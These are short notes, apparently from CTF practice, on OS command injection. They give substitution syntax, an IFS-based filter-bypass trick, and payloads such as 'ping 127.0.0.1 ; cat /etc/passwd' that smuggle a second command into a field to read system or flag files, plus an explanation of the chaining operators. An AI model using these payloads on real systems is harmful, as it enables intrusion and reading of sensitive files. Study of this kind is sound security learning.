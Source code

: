 
$( command here )
\` command here \`

`${IFS%??}` = space as in `which${IFS%??}bash`

### Examples

hash the file:
`hello.txt; cat flag.txt`
gave the first hashed and the second in clear text

ping web interface
ping server ip:
`ping 127.0.0.1 ; cat /etc/passwd`


; && || can be used to separate/chain commands
- `command1 && command2` that will run `command2` if `command1` succeeds
- `command1 || command2` that will run `command2` if `command1` fails
- `command1 ; command2` that will run `command1` then `command2`
- `command1 | command2` that will run `command1` and send the output of `command1` to `command2`

